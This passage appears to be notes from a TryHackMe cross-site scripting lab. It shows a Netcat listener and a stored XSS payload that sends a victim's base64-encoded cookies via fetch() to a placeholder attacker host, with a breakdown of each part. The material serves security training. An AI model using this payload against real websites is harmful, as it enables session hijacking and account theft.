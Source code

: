 nc

```shell-session
user@machine$ nc -nlvp 9001
Listening on [0.0.0.0] (family 0, port 9001)
```

Now that weâ€™ve set up the method of receiving the exfiltrated information, letâ€™s build the payload.

`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`

Letâ€™s break down the payload:

```ad-summary
- TheÂ `</textarea>`Â tag closes the text area field.
- TheÂ `<script>`Â tag opens an area for us to write JavaScript.
- TheÂ `fetch()`Â command makes anÂ HTTPÂ request.
- `URL_OR_IP`Â is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THMÂ VPNÂ Network.
- `PORT_NUMBER`Â is the port number you are using to listen for connections on the AttackBox.
- `?cookie=`Â is the query string containing the victimâ€™s cookies.
- `btoa()`Â command base64 encodes the victimâ€™s cookies.
- `document.cookie`Â accesses the victimâ€™s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.
```

Now create another ticket using the above payload, making sure to swap out theÂ `URL_OR_IP:PORT_NUMBER`Â variables with your settings (make sure to specify the port number as well for the Netcat listener). Now, wait up to a minute, and you will see the request come through containing the victimâ€™s cookies.


You can now base64 decode this information using a site likeÂ [https://www.base64decode.org/](https://www.base64decode.org/), giving you the necessary information to answer the below question.
